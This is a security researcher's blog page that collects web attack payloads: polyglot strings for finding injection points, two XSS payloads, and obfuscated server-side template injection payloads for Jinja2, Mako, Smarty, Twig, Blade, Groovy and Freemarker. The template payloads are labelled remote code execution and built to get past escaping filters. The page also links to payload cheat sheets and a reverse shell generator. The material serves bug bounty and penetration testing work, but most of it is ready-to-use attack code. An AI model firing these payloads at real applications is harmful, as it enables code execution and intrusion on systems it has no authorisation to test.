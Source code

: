 ```yaml
---
# the default layout is 'page'
icon: fa-solid fa-book-skull
order: 3
---
```


A list of payloads that I do use when hunting for vulnerabilities. Personaly, I rarly use exploitation payloads but instead detection payloads.

> All payloads shown on this page are created by me. I provide a basic overview of my payloads, exploitation payloads and more advanced detection payloads will not be shared.
{{'{'}}: .prompt-info }

## Polyglot payloads
> This payload focuses on the detection of syntax errors

```brainfuck
<z>"z'z`%}})z${{'{'}}{{'{'}}z\
```

> This payload focuses on detecting transformation that can be used in future attacks

```brainfuck
tfmtstart%255Az%5Az\x5Az\u005Az%26%23x5A%3Btfmtend
```

## Cool payloads
> This core payload was discoverd by the amazing research [garethheyes](https://x.com/garethheyes){:target="_blank"}!
You can read more about his research on it [here](https://x.com/garethheyes/status/1813658752245236105){:target="_blank"}.

I made a few adjustments to it:
```html
<script>'<!--<script>'</script>//alert(1)</script>
```

> The Fake comment XSS

```
/\///alert(1)
```

## Server Side Template Injection (SSTI)
### Double template rendering payloads

> Some of the indexes used in the payload to extract characters for strings may need to be changed depending on the application you are using.
{: .prompt-info }

> These payloads can be used to bypass `autoescape` / `html escape` filters.
{: .prompt-tip }


#### Jinja2

**Impact:** Remote Code Execution (RCE)

```python
{{'{'}}{{'{'}}self._TemplateReference__context.cycler.__init__.__globals__.os.popen(self.__init__.__globals__.__str__()[150:152]+self.__init__.__globals__.__str__()[694]).read()}}
```

#### Mako

**Impact:** Remote Code Execution (RCE)

```python
${{'{'}}self.module.cache.util.os.popen(str().join(chr(i)for(i)in[105,100])).read()}
```

#### Smarty

**Impact:** Remote Code Execution (RCE)

```php
{{'{'}}{{'{'}}passthru(implode(Null,array_map(chr(99)|cat:chr(104)|cat:chr(114),[105,100])))}}
```

#### Twig

**Impact:** Remote Code Execution (RCE)

```php
{{'{'}}{{'{'}}id~passthru~_context|join|slice(2,2)|split(000)|map(_context|join|slice(5,8))}}
```
```php
{{'{'}}%block U%}id000passthru{{'{'}}%endblock%}{{'{'}}%set x=block(_charset|first)|split(000)%}{{'{'}}{{'{'}}[x|first]|map(x|last)|join}}
```

####  Blade

**Impact:** Remote Code Execution (RCE)

```php
{{'{'}}{{'{'}}passthru(implode(Null,array_map(chr(99).chr(104).chr(114),[105,100])))}}
```

#### Groovy

**Impact:** Remote Code Execution (RCE)

```javascript
${{'{'}}x=new String();for(i in[105,100]){{'{'}}x+=((char)i).toString()};x.execute().text}
```

#### Freemarker

**Impact:** Remote Code Execution (RCE)

```java
${{'{'}}(6?lower_abc+18?lower_abc+5?lower_abc+5?lower_abc+13?lower_abc+1?lower_abc+18?lower_abc+11?lower_abc+5?lower_abc+18?lower_abc+1.1?c[1]+20?lower_abc+5?lower_abc+13?lower_abc+16?lower_abc+12?lower_abc+1?lower_abc+20?lower_abc+5?lower_abc+1.1?c[1]+21?lower_abc+20?lower_abc+9?lower_abc+12?lower_abc+9?lower_abc+20?lower_abc+25?lower_abc+1.1?c[1]+5?upper_abc+24?lower_abc+5?lower_abc+3?lower_abc+21?lower_abc+20?lower_abc+5?lower_abc)?new()(9?lower_abc+4?lower_abc)}
```

You can find a lot of great resources related to payloads below.
- [Payloads All The Things
](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [Reverse Shell Generator](https://www.revshells.com/)

